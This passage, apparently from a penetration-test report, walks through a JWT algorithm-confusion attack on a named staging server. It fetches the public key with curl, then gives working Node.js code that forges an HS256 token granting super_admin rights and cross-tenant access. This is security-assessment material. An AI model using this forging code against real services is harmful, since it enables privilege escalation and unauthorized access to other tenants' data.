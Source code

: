**Phase 2: Public Key Extraction**
```bash
# Extract RS256 public key from JWT validation endpoint
curl https://staging.isectech.com/.well-known/jwks.json

{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig", 
      "kid": "isectech-2025",
      "n": "0vx7agoebGcQUkuuPiDAqGjIdS...",
      "e": "AQAB"
    }
  ]
}

# Convert to PEM format for HMAC key
openssl rsa -pubin -in public_key.pem -text -noout
```

**Phase 3: Malicious Token Creation**
```javascript
// Create forged JWT using public key as HMAC secret
const crypto = require('crypto');

// Malicious payload with elevated privileges
const maliciousPayload = {
  "sub": "user_123",
  "role": "super_admin",        // ❌ Privilege escalation
  "tenant_id": "*",             // ❌ Cross-tenant access
  "admin_access": true,         // ❌ Administrative capabilities
  "iat": Math.floor(Date.now() / 1000),
  "exp": Math.floor(Date.now() / 1000) + 86400  // 24 hour expiration
};

// Change algorithm to HS256 and use RS256 public key as HMAC secret
const maliciousHeader = {
  "typ": "JWT",
  "alg": "HS256"    // ❌ Algorithm confusion attack
};

// Create signature using public key as HMAC secret
const headerB64 = Buffer.from(JSON.stringify(maliciousHeader)).toString('base64url');
const payloadB64 = Buffer.from(JSON.stringify(maliciousPayload)).toString('base64url');
const dataToSign = headerB64 + '.' + payloadB64;

const publicKeyAsSecret = fs.readFileSync('public_key.pem', 'utf8');
const signature = crypto.createHmac('sha256', publicKeyAsSecret)
                       .update(dataToSign)
                       .digest('base64url');

const forgedToken = headerB64 + '.' + payloadB64 + '.' + signature;
console.log("Forged JWT:", forgedToken);
```
